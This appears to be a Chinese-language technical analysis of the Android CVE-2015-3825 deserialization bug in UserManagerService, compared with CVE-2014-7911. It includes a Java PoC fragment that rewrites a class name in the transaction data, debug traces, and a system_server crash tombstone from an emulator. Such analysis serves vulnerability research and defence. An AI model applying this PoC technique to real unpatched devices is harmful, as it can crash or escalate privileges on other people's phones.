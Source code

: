 
和CVE-2014-7911 PoC一样，向“android.os.IUserManager”的service发送请求前，修改类名：

    
    
    #!java
    int l = data.length;
    for (int i=0; i<l-4; i++) {
    if (data[i] == 'A' && data[i+1] == 'p' && data[i+2] == 'e' && data[i+3] == 'n') {
    data[i] = 'O';
    break;
        }
    }
    

类似CVE-2014-7911的分析，我们也对service.jar加一些日志信息输出，在Android 4.4.2的AVD中，安装、运行PoC，我们看到：

    
    
    E/CVE-2014-7911-trace(1669): setApplicationRestrictions
    E/CVE-2014-7911-trace(1669): writeApplicationRestrictionsLocked
    E/CVE-2014-7911-trace(1669): writeApplicationRestrictionsLocked::for::eatthis
    E/CVE-2014-7911-trace(1669): writeApplicationRestrictionsLocked::for::else
    E/CVE-2014-7911-trace(1669): writeApplicationRestrictionsLocked::Exception
    E/CVE-2014-7911-trace(1669): writeApplicationRestrictionsLocked::Exception::java.lang.ClassCastException: com.android.org.conscrypt.OpenSSLX509Certificate cannot be cast to java.lang.String[]
    W/System.err(1669): java.lang.ClassCastException: com.android.org.conscrypt.OpenSSLX509Certificate cannot be cast to java.lang.String[]
    at com.android.server.pm.UserManagerService.writeApplicationRestrictionsLocked(UserManagerService.java:1417)
    at com.android.server.pm.UserManagerService.setApplicationRestrictions(UserManagerService.java:1124)
    at android.os.IUserManager$Stub.onTransact(IUserManager.java:245)
    W/System.err(1669):     at android.os.Binder.execTransact(Binder.java:404)
    W/System.err(1669):     at dalvik.system.NativeStart.run(Native Method)
    **E/UserManagerService(1669): Error writing application restrictions list**
    

也是强制类型转换导致异常，与CVE-2014-7911的强制转换为java.io.Serializable导致的异常不同，因为传入的object本身不是序列化的对象，致使类型转换失败。CVE-2015-3825是将`com.android.org.conscrypt.OpenSSLX509Certificate`强制转换为`java.lang.String[]`而产生的异常。

验证PoC过程中，在Android 4.4.2 AVD，只触发了“Error writing application restrictionslist”异常，但是GC资源回收没被触发。

在Android 5.1.1 AVD，可以通过重复发送n次的“TRANSACTION_setApplicationRestrictions”请求可以触发GC回收资源，最后导致system_server的crash:

    
    
    A/libc(4839): Fatal signal 11 (SIGSEGV), code 1, fault addr 0x7f7f7f8f in tid 4848 (FinalizerDaemon)
    I/DEBUG(61): *** *** *** *** *** *** *** *** *** *** *** *** *** *** *** ***
    I/DEBUG(61): Build fingerprint: 'generic/sdk_phone_armv7/generic:5.1/LKY45/1737576:eng/test-keys'
    I/DEBUG(61): Revision: '0'
    I/DEBUG(61): ABI: 'arm'
    I/DEBUG(61): pid: 4839, tid: 4848, name: FinalizerDaemon  >>> system_server <<<
    I/DEBUG(61): signal 11 (SIGSEGV), code 1 (SEGV_MAPERR), fault addr 0x7f7f7f8f
    I/DEBUG(61):     r0 00000000  r1 0000000c  r2 00000000  r3 00000000
    I/DEBUG(61):     r4 b6c9766f  r5 00000003  r6 ffffffff  r7 7f7f7f8f
    I/DEBUG(61):     r8 00000075  r9 b6c24ac9  sl a78fbaa4  fp 13068980
    I/DEBUG(61):     ip 00000001  sp a78fba58  lr b6c3da1d  pc b6c3da1c  cpsr 60000030
    I/DEBUG(61): backtrace:
    I/DEBUG(61):     #00 pc 00072a1c  /system/lib/libcrypto.so (CRYPTO_add_lock+59)
    I/DEBUG(61):     #01 pc 000579b1  /system/lib/libcrypto.so (asn1_do_lock+68)
    I/DEBUG(61):     #02 pc 0005646f  /system/lib/libcrypto.so
    09-06 20:31:31.394: I/DEBUG(61):     #03 pc 00056415  /system/lib/libcrypto.so (ASN1_item_free+12)
    09-06 20:31:31.395: I/DEBUG(61):     #04 pc 00017c0d  /data/dalvik-cache/arm/system@framework@boot.oat
    09-06 20:32:09.116: I/art(5663): Background sticky concurrent mark sweep GC freed 7340(386KB) AllocSpace objects, 0(0B) LOS objects, 45% free, 603KB/1117KB, paused 887us total 513.880ms
    09-06 20:32:22.682: I/DEBUG(61): Tombstone written to: /data/tombstones/tombstone_01
    